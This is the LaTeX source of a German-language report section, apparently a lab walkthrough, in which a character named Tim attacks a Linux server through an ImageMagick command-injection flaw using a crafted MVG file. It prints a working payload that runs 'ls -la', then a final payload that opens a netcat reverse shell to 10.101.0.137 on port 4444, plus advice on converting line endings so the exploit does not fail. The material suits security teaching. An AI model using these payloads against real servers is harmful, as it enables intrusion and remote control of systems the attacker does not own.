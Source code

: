 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploit}]
        exploit.mvg
        -=-=-=-=-=-=-=-=-
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|ls "-la)'
        pop graphic-context
    \end{lstlisting}~\parencite{imagemagickExploit}
    \vspace{0.3cm}
    \\
    Dieser Exploit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
    Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
    Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
    Dass der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
    Beim Erstellen des Exploits gilt es zu beachten, dass es sich bei dem Zielserver um einen Linux System handelt, welches nur unix Linebreaks versteht.
    Jedes in Windows geöffnete oder erstellt Datei muss demnach vorher umgewandelt werden, da der Exploit sonst fehlschlagen wird.
    Um das zu erreichen, helfen Tools wie Notepad++ oder das Kommandozeilenprogramm dos2unix:
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] Datei in Notepad++ öffnen --> Menüpunkt \textit{Bearbeiten} auswählen --> \textit{EOL-Konvertierung} wählen --> \textit{Unix(LF)}.
        \item[2.] Oder \textit{dos2unix filename.txt} in die Kommandozeile eingeben.
        Es gilt zu Beachten, dass nicht jedes System dos2unix unterstützt.
    \end{enumerate}


    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat speichern
        #Lokale IP und Zielport tauschen
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
        pop graphic-context
    \end{lstlisting}
    \vspace{0.3cm}
\end{document}
